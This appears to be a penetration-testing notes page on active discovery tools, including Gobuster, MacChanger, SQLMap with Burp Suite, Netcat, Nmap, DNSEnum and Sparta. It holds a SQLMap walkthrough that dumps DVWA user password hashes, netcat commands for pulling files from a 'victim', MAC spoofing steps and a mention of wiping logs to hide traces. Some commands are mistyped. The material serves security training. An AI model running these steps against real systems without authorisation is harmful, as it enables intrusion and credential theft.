







# Active Discovery

[Home](README.md)
<!-- 
- [Netcat](#Netcat)
- [TCPDump](#TCPDump)
- [Wireshark](#Wireshark)
- [Koadic](#Koadic)
- [OWASP ZAP](#OWASP-ZAP)
- [NMap](#NMap)
- [Open VAS](#Open-VAS)
- [DNSEnum](#DNSEnum)
- [Heartbeat](#Heartbeat)
- [ExifTool](#ExifTool) -->

## Gobuster

### Introduction
Gobuster is a brute force directory and DNS subdomain enumeration tool that is significantly faster than dirb as it is a multithreaded tool and contains more options for searching through directories. One benefit for time management that this tool provides is that unlike dirb, it does not recursively search through found directories (which can be seen as a pro or con, depending on your needs).

### Installation

All of the Gobuster installation files are located at https://github.com/OJ/gobuster, however some prerequisites are needed.

#### Prerequisites

Since Gobuster is written in the Go language, it can be run on any system with Go installed.

#### Windows and MacOS

[Go Download](https://golang.org/dl/)

For Windows and MacOS, the installation of the Go language couldn``t be simpler, download the package from the link above that fits your system, and install away.

#### Linux

For most Linux operating systems, the Go language is already listed in their default repositories, and can be installed with the following (shown example is for Debian non-root user, use your distribution equivalent):
sudo apt-get install golang

### Gobuster

#### Windows and MacOS

In windows and MacOS, gobuster can be installed with the following without any additional changes to the PATH:

    go get github.com/OJ/gobuster

#### Linux

To install gobuster in Linux, you can either download the package from the GitHub, extract it, and reconfigure the Go PATH variables, or run the following

    sudo apt-get install gobuster

This will install gobuster and allow it to be run through the CLI directly rather than going through the Go tool. 

#### Running Gobuster

There are three different modes that gobuster can be run with, dir, dns, and vhost, each come with a separate set of options that allows for customized searches. While there are switches directly related to the different modes of gobuster, there are a few global switches as well that will work in all the modes. The three main global switches that would most likely be used are the –o (output to file), -w (wordlist file), and -t (thread count). While the first two are straight forward, the –t switch allows the user to change the amount of concurrent threads being run by gobuster. By changing the thread count, the speed of the scan can be increased or decreased (10 is the standard, 200 is the max). By using the highest count, the scan will be shorter in duration but may cause some directories to not be found.

In addition to downloaded wordlists, gobuster can also work with a piped wordlist as well. This can be done by providing a stdin to gobuster and using the reference - for the wordlist switch location as seen below.

    hashcat -a 3 --stdout ?l | gobuster dir -u https://mysite.com -w -
    Dir

The directory mode for the tool is similar to using dirb to brute force directory names from a wordlist. However, gobuster can be modified to identify directories that give out different status codes. For example, dirb does not report back directories with status code 403 (Forbidden), but it is recognized by gobuster. This can be useful as you now know that a forbidden file is there, but cannot be accessed directly with the current privileges. 

Figure 1 - Gobuster directory mode switches

#### DNS

The DNS mode for dirbuster is a subdomain enumeration tool (subdomain.domain.com). To use this mode, only the –d (domain name) and –w (wordlist) switches need to be specified, however using the –i (ip address) switch can be helpful as it displays the IP address associated with the subdomain, which may increase the number of potential targets for future enumeration or exploiting. 

Figure 2 - Gobuster DNS mode switches

#### VHost

The last mode option for gobuster is the virtual host enumeration. This mode allows the user to scan the target for any additional virtual hosts that may be running on the web server.  
 

Figure 3 - Gobuster VHost mode switches

#### Example Usage

For gobuster to run a directory search, only the –u and –w flags need to be specified. Using the OWASPBWA machine as the example target, gobuster will brute force the site and find the first level of directories and pages listed on the site. 
 

Figure 4 - Example of dir mode usage on the OWASP BWA machine

For the DNS scan, we will use the website hackthissite.org. Gobuster seems to have issues pulling in external websites when specifying the domain as an IP address, so a website with a real domain name was used.

 
Figure 5 - Example of dns mode usage on the website hackthissite.org

From the scan, four subdomains were found. With this information, further enumeration or target analysis can be used to identify the system and processes that might be running on the web server. This scan was tried with various amount of thread counts, and it appears the higher the thread count, the more likely false positives will appear.

## MacChanger

MAC Address: Media Access Control (MAC) address is a unique identifier for hardware.  This piece of hardware is usually a wireless card or ethernet card.  Packets are sent and received through a combination of IP, next hop, ARP, and your MAC address is mixed in there somewhere.

Macchanger comes standard on any Kali Linux suite.  Macchanger tool is performed on command-line interpreter (CLI) and must be performed in either root or super user ``sudo`` privileges.  Open up terminal and follow the steps below.

``Ifconfig``

This brings up your network adapters, as you can see here eth0 that has an assigned MAC address.  If you are connected via WiFi then you should see wlan0.

``Macchanger -s eth0``

This will bring up your current and permanent MAC, as you can see it is the same as assigned on ifconfig as the MAC has not been changed yet.
 
``Ifconfig eth0 down``

This is a necessary step before changing your MAC.  Disable your network adapter.  If you receive an error while attempting to change your MAC, the likely cause is that you did not disable the network adapter.  As you can see on the top right, the network was disconnected.

``Macchanger -r eth0``

Your permanent MAC will always show you your original MAC and with this command a random MAC was assigned as your new MAC address.

``Ifconfig eth0 up``
``Macchanger -s eth0``

Once you have successfully changed your MAC, you will need to bring your network adapter back on-line, afterwards check you that your new assigned MAC has been applied.

``Ifconfig``

For additional verification you can perform ifconfig to see under eth0 that your newly assigned MAC address is now what will be presented in public.

``Ifconfig eth0 down``
``Macchanger -m 00:a0:01:b1:02:c2 eth0``

To set a specific MAC which can be used as MAC spoofing, use this command which will show up as your new MAC.  Make sure to disable the network adapter before changing your MAC.

``Ifconfig eth0 up``
``-macchanger -s eth0``

Bring your network adapter back on-line.  Verify that your specific MAC has been applied successfully.

``Macchanger -l``

This command will provide you with a list of OUI``s which can be helpful to mask your new MAC with an address that resembles a realistic MAC from an official manufacturer.

``Macchanger –help``

Like most Kali linux CLI, there are other options available, all you have to do is ask for help.  You can revert your changed MAC address to the original with –p or you can simply shut down or restart your computer and your MAC will revert to the permanent automatically.

## SQLMap

Power on the attacking host.  Open a command line interface and run the following commands to download sqlmap.

``git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev``

Run the following command to verify that sqlmap is updated.

``sudo apt install --only-upgrade sqlmap``

Visit Portswigger``s website to download and install the latest version of Burp Suite.  Once downloaded, launch sqlmap with the command:

``sudo sqlmap –help``

sqlmap has a host of options that can be modified to help a penetration tester in the efforts.  The ``-g`` option pipes the results of a Google dork search directly into the URL field of an sqlmap command.  The ``—proxy=`` is useful for hiding the originating source of the SQL injection by directing traffic through a proxy.  The ``—random-agent`` will insert a random value selected from the ``user-agents.txt`` file into the HTTP header.  The ``—level=`` and ``—risk=`` commands allow for modifications in the level of tests conducted by the scanner as well as the level of risk for each test conducted.  The ``—wizard`` command walks users through a simple wizard to help determine which switches to add to a given scan.  Note, the scan will be very simple and will only note the basest of vulnerabilities.  Lastly, the ``-a`` command will attempt to enumerate every option that sqlmap provides and can reveal a trove of data.  
After reviewing the sqlmap help page, launch Burp Suite by typing the entering the following command.

### Burp Suite``

Navigate to the Proxy tab and then the Intercept tab and verify that ``Intercept is on`` option has been enabled.

Open a web browser and navigate to the identified database server.

Activate the proxy software and direct all traffic to Burp Suite; the default location for Burp Suite is 127.0.0.1:8080.  

 
Return to the vulnerable web application and enter the value ``1`` into the field.  The traffic to and from the server will be routed through Burp Suite.  Burp Suite will capture the GET response from the page and reveal the session cookie generated by the web application.  This session cookie will be important for the remainder of the demonstration.

Return to the command line interface and enter the following command:

``Sudo sqlmap –u [URL] –cookie="security=low ; PHPSESSID=rnqtr18q50ted2p8t41b8udv11" --dbs``
 

The ``-u`` command is the URL where the vulnerable database resides, the ``—cookie=`` command inserts the captured session cookie into the requests that are sent by sqlmap, and the ``—dbs`` option enumerates the underlying database.  Note that sqlmap found two databases in its scan:  dvwa and information_schema.
Having found these, enter the following command to attempt to enumerate the tables contained within the database ``dvwa:``

``Sudo sqlmap –u [URL] –cookie="security=low ; PHPSESSID=rnqtr18q50ted2p8t41b8udv11" -D dvwa –tables``

The ``-D`` switch denotes which database the next command should be run against.  The ``—tables`` switch tells the scanner to enumerate the tables held underneath the database.  As noted above, the scanner revealed the tables, ``guestbook`` and ``users,`` in its scans.  To identify the information contained within the ``users`` table run the following command:

``Sudo sqlmap –u [URL] –cookie="security=low ; PHPSESSID=rnqtr18q50ted2p8t41b8udv11" -D dvwa -T users –columns``
 

The table output from the scan notes the titles of columns contained within the database as well as the restrictions on input into those fields.  One item of note is that the ``user_id`` fields is limited to an integer input of six ``(int(6))`` meaning that only six users are allowed on the system.  With this information one final scan can be run to gather the usernames, passwords with hashes, and user ids for the database.

``Sudo sqlmap –u [URL] –cookie="security=low ; PHPSESSID=rnqtr18q50ted2p8t41b8udv11" -D dvwa -T users -C user,password,user_id --dump``

The option ``-T`` tells the scanner to target the specified table while the option ``-C`` tells the scanner to target the following columns.  ``—dump`` dumps the table entities.  During the dump, sqlmap will attempt to crack the identified password hashes through either brute force attacks or by matching the output to a text file of known password hashes.  Attackers are also given the option to export the file to a format to be used with other password cracking tools.  From the results it is made known that there are six users as established by the user id limitations.  Likewise, the passwords for each user are made known to the attacker.  From here an attacker could leverage the admin account to conduct further exploits on the system, without needing to exploit a vulnerability in the application.

Once the attacker is finished, simply closing the web browser for the associated token will eventually terminate the session.  If the attacker has gained root privileges on the compromised host, he or she may attempt to locate the log file and delete its contents to eliminate any traces of activity on the host that would conclusively point to him or her.  To uninstall sqlmap enter the following command into the command line interface:

``Sudo apt-get purge –auto-remove sqlmap``

The ``purge`` option will remove all local configuration data from the attacking host.  Burp suite may also be removed with a similar command:

``Sudo apt-get purge –auto-remove burpsuite``

To reiterate, sqlmap is a powerful tool that an attacker may use to enumerate and exploit vulnerable web application databases.  It features a host of switches that can be tailored to fit almost any means of attacking a database.  It may be combined with other tools such as several included in the Metasploit framework to deliver payloads to exploit vulnerable databases.  sqlmap is useful in exploiting almost any database server, from the simplest, most ill-secured, to the hardened accessible only through zero-day attacks.  Any serious penetration tester would benefit from the inclusion of sqlmap into his or her toolbox.
 
[sqlmap homepage](http://sqlmap.org/)
[GitHub sqlmap wiki](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
[Expanded command list](https://resources.infosecinstitute.com/important-sqlmap-commands/)
[Burp Suite homepage](https://portswigger.net/) 
[sqlmap](https://github.com/sqlmapproject/sqlmap/zipball/master)
[Burp Suite](https://portswigger.net/burp/releases/professional-community-2020-2?requestededition=community)
[FoxyProxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/?src=search)

## Netcat

Netcat is a simple tool used to communicate over a given port between a client and a server on a network. The command can be used to send messages or files over tcp or udp. There must be a server listening and a client sending for successful communication. It can be used in conjunction with other utilities to provide a pipeline over which an exploit can be used or deeper discovery can be achieved.

### Start Listener on the Target

``nc -l -p [port]``

### Start Client on Kali

``nc [target_ip_address] [port]``

Now you can send text to the target console session

### Push file from attacker to victim

On Victim:

``nc -lvp [port] > [destination path]``

On Attacker:

``nc [victimip] [victimport] < [path and name of file]``

### Pull file from victim

On Victim:

``nc -l -p [port] < [path and filename]``

On Attacker:

``nc [victimip] [victimport] > [path and name of file]``

### Port Scanning

``nc -z -v [targetip] [port or port range]``

### Banner Grab

``nc [ipaddress] [port]``

## TCPDump

TCP Dump is a packet capture utility. It watches traffic on the given interface and streams packet capture to a pcap file. This pcap file can be analyzed in Wireshark. When used in conjunction with netcat, tcpdump can provide pcap files of a victim to a remote attacker.

``tcpdump -i eth0 -w [filename.pcap]``

## Wireshark

Packet capture analysis tool

[Wireshark Documentation](https://www.wireshark.org/docs/)

## OWASP ZAP

[Getting Started](https://www.zaproxy.org/getting-started/)

## NMap

Network exploration tool and security / port scanner

[NMap Cheatsheet](https://hackertarget.com/nmap-cheatsheet-a-quick-reference-guide/)

[Nmap Documentation](https://nmap.org/docs.html)

[NMap Legal Issues](https://nmap.org/book/legal-issues.html)

Nmap (``Network Mapper``) is an open source tool for network exploration and security auditing. It was designed to rapidly scan large networks, although it works fine against single hosts. Nmap uses
raw IP packets in novel ways to determine what hosts are available on the network, what services (application name and version) those hosts are offering, what operating systems (and OS versions)
they are running, what type of packet filters/firewalls are in use, and dozens of other characteristics. While Nmap is commonly used for security audits, many systems and network administrators
find it useful for routine tasks such as network inventory, managing service upgrade schedules, and monitoring host or service uptime.

The output from Nmap is a list of scanned targets, with supplemental information on each depending on the options used. Key among that information is the "interesting ports table".  That table lists the port number and protocol, service name, and state. The state is either open, filtered, closed, or unfiltered.  Open means that an application on the target machine is listening for connections/packets on that port.  Filtered means that a firewall, filter, or other network obstacle is blocking the port so that Nmap cannot tell whether it is open or closed.  Closed ports have no application listening on them, though they could open up at any time. Ports are classified as unfiltered when they are responsive to Nmap's probes, but Nmap cannot determine whether they are open or closed. Nmap reports the state combinations open|filtered and closed|filtered when it cannot determine which of the two states describe a port. The port table may also include software version details when version detection has been requested. When an IP protocol scan is requested (-sO), Nmap provides information on supported IP protocols rather than listening ports.

In addition to the interesting ports table, Nmap can provide further information on targets, including reverse DNS names, operating system guesses, device types, and MAC addresses.

A typical Nmap scan is shown in Example 1. The only Nmap arguments used in this example are -A, to enable OS and version detection, script scanning, and traceroute; -T4 for faster execution; and
then the hostname.

    nmap -A -T4 scanme.nmap.org

    Nmap scan report for scanme.nmap.org (74.207.244.221)
    Host is up (0.029s latency).
    rDNS record for 74.207.244.221: li86-221.members.linode.com
    Not shown: 995 closed ports
    PORT     STATE    SERVICE     VERSION
    22/tcp   open     ssh         OpenSSH 5.3p1 Debian 3ubuntu7 (protocol 2.0)
    | ssh-hostkey: 1024 8d:60:f1:7c:ca:b7:3d:0a:d6:67:54:9d:69:d9:b9:dd (DSA)
    |_2048 79:f8:09:ac:d4:e2:32:42:10:49:d3:bd:20:82:85:ec (RSA)
    80/tcp   open     http        Apache httpd 2.2.14 ((Ubuntu))
    |_http-title: Go ahead and ScanMe!
    646/tcp  filtered ldp
    1720/tcp filtered H.323/Q.931
    9929/tcp open     nping-echo  Nping echo
    Device type: general purpose
    Running: Linux 2.6.X
    OS CPE: cpe:/o:linux:linux_kernel:2.6.39
    OS details: Linux 2.6.39
    Network Distance: 11 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:kernel

    TRACEROUTE (using port 53/tcp)
    HOP RTT      ADDRESS
    [Cut first 10 hops for brevity]
    11  17.65 ms li86-221.members.linode.com (74.207.244.221)

    Nmap done: 1 IP address (1 host up) scanned in 14.40 seconds

## Open VAS

[OpenVas](https://www.kali.org/penetration-testing/openvas-vulnerability-scanning/)
        
    Apt update 
Then
    
    Apt install openvas
    Openvas-setup

This takes quite awhile

Copy that long password at the very end

    Openvas-start (this can take a few minutes)
    Netstat –antp to ensure OpenVAS manager, scanner and GSAD services are listening

### DNSEnum

Enumerates DNS information of a domain and to discover non-contiguous ip blocks.

#### OPERATIONS:

* Get the host``s addresse (A record).
* Get the namservers (threaded).
* Get the MX record (threaded).
* Perform axfr queries on nameservers and get BIND VERSION (threaded).
* Get extra names and subdomains via google scraping (google query = ``allinurl: -www site:domain``).
* Brute force subdomains from file, can also perform recursion on subdomain that have NS records (all threaded).
* Calculate C class domain network ranges and perform whois queries on them (threaded).
* Perform reverse lookups on netranges ( C class or/and whois netranges) (threaded).
* Write to domain_ips.txt file ip-blocks.

[Source](https://github.com/fwaeytens/dnsenum)

    root@kali:~# dnsenum -h
    dnsenum VERSION:1.2.4
    Usage: dnsenum [Options] <domain>
    [Options]:
    Note: the brute force -f switch is obligatory.
    GENERAL OPTIONS:
    --dnsserver   <server>
                Use this DNS server for A, NS and MX queries.
    --enum        Shortcut option equivalent to --threads 5 -s 15 -w.
    -h, --help        Print this help message.
    --noreverse       Skip the reverse lookup operations.
    --nocolor     Disable ANSIColor output.
    --private     Show and save private ips at the end of the file domain_ips.txt.
    --subfile <file>  Write all valid subdomains to this file.
    -t, --timeout <value> The tcp and udp timeout values in seconds (default: 10s).
    --threads <value> The number of threads that will perform different queries.
    -v, --verbose     Be verbose: show all the progress and all the error messages.
    GOOGLE SCRAPING OPTIONS:
    -p, --pages <value>   The number of google search pages to process when scraping names,
                the default is 5 pages, the -s switch must be specified.
    -s, --scrap <value>   The maximum number of subdomains that will be scraped from Google (default 15).
    BRUTE FORCE OPTIONS:
    -f, --file <file> Read subdomains from this file to perform brute force.
    -u, --update  <a|g|r|z>
                Update the file specified with the -f switch with valid subdomains.
        a (all)     Update using all results.
        g       Update using only google scraping results.
        r       Update using only reverse lookup results.
        z       Update using only zonetransfer results.
    -r, --recursion   Recursion on subdomains, brute force all discovred subdomains that have an NS record.
    WHOIS NETRANGE OPTIONS:
    -d, --delay <value>   The maximum value of seconds to wait between whois queries, the value is defined randomly, default: 3s.
    -w, --whois       Perform the whois queries on c class network ranges.
                **Warning**: this can generate very large netranges and it will take lot of time to performe reverse lookups.
    REVERSE LOOKUP OPTIONS:
    -e, --exclude <regexp>
                Exclude PTR records that match the regexp expression from reverse lookup results, useful on invalid hostnames.
    OUTPUT OPTIONS:
    -o --output <file>    Output in XML format. Can be imported in MagicTree (www.gremwell.com)

#### dnsenum Usage Example

Don``t do a reverse lookup (–noreverse) and save the output to a file (-o mydomain.xml) for the domain example.com:

    root@kali:~# dnsenum --noreverse -o mydomain.xml example.com
    dnsenum VERSION:1.2.4

    -----   example.com   -----

    Host's addresses:
    __________________

    example.com.                             392      IN    A        93.184.216.119

    Name Servers:
    ______________

    b.iana-servers.net.                      122      IN    A        199.43.133.53
    a.iana-servers.net.                      122      IN    A        199.43.132.53

    Mail (MX) Servers:
    ___________________

## Sparta

[Sparta Documentation](https://tools.kali.org/information-gathering/sparta)

Sparta is a utility that automates active discovery. It starts by running nmap scans of a given ip range. Sparta will then run other various tools based on the services discovered. 

Sparta can be found in the menu under vulnerability analysis

When sparta opens, click in the left pane to add hosts
 

Enter a network range in CIDR notation or a single ip

Sparta will begin running an nmap discovery of the scope.

Results for each tool by host can be found by choosing the different tabs at the top of the right pane

 
Tools like nikto are ran automatically when a host is found to have a web server running on it.

Sparta is a great tool to use in place of manual nmap scans since you can start a scan job and come back to a set of comprehensive active discovery results without having to individually run each utility based on your initial manual nmap scan.

## Heartbeat

Use netcat to run a continuous port check. Tells us the status of common services

    While (true); do nc –vv –z –w3 [target_ip] [target_port] > /dev/null && echo –e ``\x07``; sleep 1; done

## ExifTool

[ExifTool Download](https://exiftool.org)

ExifTool can be used to read and write file metadata

### ExifTool Read

``Exiftool(-k).exe –a –u –g1 <filepath>``

### ExifTool Write

``Exiftool(-k).exe -<tagname>=<tagvalue> <filepath>``

